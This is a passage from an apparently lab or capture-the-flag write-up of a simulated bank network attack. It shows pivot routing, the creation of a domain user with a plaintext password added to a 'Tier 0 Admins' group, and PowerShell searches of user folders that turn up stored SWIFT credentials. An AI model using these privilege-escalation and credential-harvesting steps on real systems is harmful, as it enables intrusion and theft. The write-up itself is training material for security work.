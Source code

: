 	ip route add 10.200.89.51/32 dev ligolo_rdc & ip route add 10.200.89.52/32 dev ligolo_rdc & ip route add 10.200.89.61/32 dev ligolo_rdc
Then I tried to login as it.supportea user to the jmp host, using remmina; even if we are Enterprise Admins it seems that we cannot access the jump box, so I added a new user to the Tier 0 Admins group in the bankdc server:

	net user it.support_bank Password2@ /ADD /DOMAIN
 	net group "Tier 0 Admins" it.support_bank /ADD /DOMAIN
#### Flags submission
You can now submit flags 13 and 14
 
### Access to jmp server
With the newly created users we can now access the JMP host in RDP. Being part of the Tier 0 admins involves being administrator of the host too. Once logged on the jump box I started the
information gathering process. Searching for juicy file I found this one:

	ps: C\Users>Get-ChildItem -Recurse | Select-String "password" -List | Select Path

		Path
		----
		C:\Users\a.holt\Documents\Swift\swift.txt
		...
Looking at swift.txt we got the following:

	cat C:\Users\a.holt\Documents\Swift\swift.txt
	Welcome approverto the SWIFT team.
	You're credentials have been activated. As you are an approver, this has to be a unique password and AD replication is disallowed.
	You can access the SWIFT system here: http://swift.bank.thereserve.loc
Very sadly I knew that the password to access the swift application are not synched to AD. 
Connecting in RDP, using the it.support_bank user, on the two workstations (work1 and work2) I performed the same research and I found 3 files:

	PS C:\Users> Get-ChildItem -Recurse | Select-String "password" -List | Select Path
	
	Path
	----
	C:\Users\a.barker\Documents\SWIFT\Swift.txt
	C:\Users\g.on\Documents\SWIFT\swift.txt
	C:\Users\t.buckley\Documents\Swift\swift.txt

Inspecting the g.watson user's file we found a password:

	cat C:\Users\g.watson\Documents\SWIFT\swift.txt
  	Welcome capturer to the SWIFT team.
	You can access the SWIFT system here: http://swift.bank.thereserve.loc
	#Storing this here:
	zzzzzzzzzzzzzzzzzzz
 
 #### Flag submissions
 We can now submit flags 9, 10, 11 and 12.
 Now if we visited the swift URL from the JMP host (actually you can reache the swift app from work1 and work2 too) we can login as <b>g.watson@bank.thereserve.loc</b> user
